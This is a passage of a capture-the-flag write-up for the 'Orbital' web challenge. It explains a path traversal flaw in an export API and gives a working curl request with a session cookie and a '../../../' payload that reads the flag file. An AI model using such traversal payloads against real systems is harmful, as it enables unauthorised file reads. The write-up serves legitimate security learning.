 After that, it'll get key `name`'s value (`communicationName`).

Finally, it'll send us a file from `/communications/{communicationName}`.

Since there's no validation to check ***path travsal***, we can try to get the flag!

**But first, let's look at the web application's file structure:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/Orbital/web_orbital)-[2023.03.19|12:52:56(HKT)]
└> ls -lah files/communication.mp3
-rw-r--r-- 1 siunam nam 111K Mar 14 21:15 files/communication.mp3
```

As you can see, the `communication.mp3` is in `/communications/files/`.

**Then, in `Dockerfile`, we see where does the flag lives:**
```bash
# copy flag
COPY flag.txt /signal_sleuth_firmware
COPY files /communications/
```

**That being said, we can download the flag via `../../../signal_sleuth_firmware`:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/Orbital)-[2023.03.19|13:00:17(HKT)]
└> curl http://143.110.160.221:30809/api/export --cookie "session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVNakl5T1RjMGZRLldDNTFaRmd5ZjE2cUVaZ3VtN29qbVJyWVRHb0F3Ni1Wbnd3eGQwbGFTN2MifQ.ZBaUXg.Raqq6_Z94_wxwrORI5bOTm99cPw" -d '{"name":"../../../signal_sleuth_firmware"}' -H 'Content-Type: application/json'
HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}
```

Nice!

- **Flag: `HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}`**

## Conclusion

What we've learned:

1. Exploiting Error-Based/Time-Based SQL Injection